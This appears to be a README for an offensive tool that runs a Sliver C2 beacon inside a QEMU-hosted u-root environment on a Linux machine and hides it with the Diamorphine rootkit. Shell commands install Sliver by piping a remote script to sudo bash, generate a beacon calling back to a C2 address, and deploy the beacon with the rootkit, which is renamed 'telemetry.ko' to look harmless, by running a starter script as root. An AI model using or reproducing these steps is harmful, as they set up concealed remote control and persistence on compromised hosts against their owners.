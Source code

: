 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;



Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu

---

![Alt Text](https://imgur.com/yxWqAgM)

